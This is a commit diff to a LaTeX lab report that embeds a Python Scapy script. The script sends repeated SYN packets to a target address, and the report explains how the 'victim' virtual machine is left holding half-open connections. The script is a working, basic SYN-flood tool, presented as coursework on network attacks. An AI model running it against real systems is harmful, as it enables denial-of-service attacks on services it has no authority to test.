

Before and after one commit to beagaliana/syn-flooding-scapy, a LaTeX document (report.tex): part of page 8 of 9 before the commit and two parts of pages 8 and 9 of 10 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Description of SYN flood script

```diff
--- a/report.tex
+++ b/report.tex
@@ -179,29 +179,36 @@ This script is based on the original created by \href{https://github.com/subodhp
 \begin{lstlisting}
 
 #! /usr/bin/env python
-# Name : Subodh Pachghare
-# CyberSpace Name : HaX0R (Cyberninja)
-# Website : www.thesubodh.com
-# Description : SYN Flood Packet creation for iptables prevention solution
 import sys
 from scapy.all import *
-#conf.verb=0
-print "Field Values of packet sent"
-p=IP(dst=sys.argv[1],id=1111,ttl=99)/TCP(sport=RandShort(),dport=[22,80],seq=12345,ack=1000,window=1000,flags="S")/"HaX0r SVP"
+print("Field Values of malformed packet sent")
+# Create malformed packet
+p = IP(dst = sys.argv[1], id = 1111, ttl = 99)/TCP(sport = RandShort(), dport=80, seq = 12345, ack = 1000, window = 1000, flags = "S")
 ls(p)
-print "Sending Packets in 0.3 second intervals for timeout of 4 sec"
-ans,unans=srloop(p,inter=0.3,retry=2,timeout=4)
-print "Summary of answered & unanswered packets"
+print("Sending Packets in 0.3 second intervals for timeout of 4 sec")
+ans, unans = srloop(p, inter = 0.3, retry = 2, timeout=4)
+print("Summary of answered packets")
 ans.summary()
+print("---------------------------")
+print("Summary of unanswered packets")
 unans.summary()
-print "source port flags in response"
-#for s,r in ans:
-# print r.sprintf("%TCP.sport% \t %TCP.flags%")
-ans.make\_table(lambda(s,r): (s.dst, s.dport, r.sprintf("%IP.id% \t %IP.ttl% \t %TCP.flags%")))
+print("source port flags in response")
+for s,r in ans:
+    print r.sprintf("%TCP.sport% \t %TCP.flags%")
 
 \end{lstlisting}
 
-\section{Conclusion}\index{}
+\vspace{5mm}
+
+Let's take a look at some of the details of the malformed packet: the destination address of the packet is passed as a parameter, it will be the address of the victim server (virtual machine). The source port is randomly generated using the RandShort() function. Lastly, the TCP flags are set to "S", in order to send a SYN packet.\vspace{5mm}
+
+We will also use the method srloop() which sends a packet and continues to resend it after each response is received. This method returns a tuple of answered and unanswered packets, we will print a summary of those packets, too, so we can see the response of the target server.\vspace{5mm}
+
+To end, printing the flag of the response packets allows us to check that the target replies are SYN-ACK (SA) responses.\vspace{5mm}
+
+This SA shows that the server “thinks” the ACK from attacker was lost, so it keeps re-sending it. The connection on the target server remains in the SYN\_RECV state for 3 minutes for each port, as per the \href{https://sysctl-explorer.net/net/ipv4/tcp\_synack\_retries/}{net.ipv4.tcp\_synack\_retries} parameter, whose default value is set to 5 in Linux. After these retries, the kernel closes the connection.\vspace{5mm}
+
+\section{Conclusion}
 
 
 \clearpage
```
Also changed, not shown: report.tex (4 more changed lines).
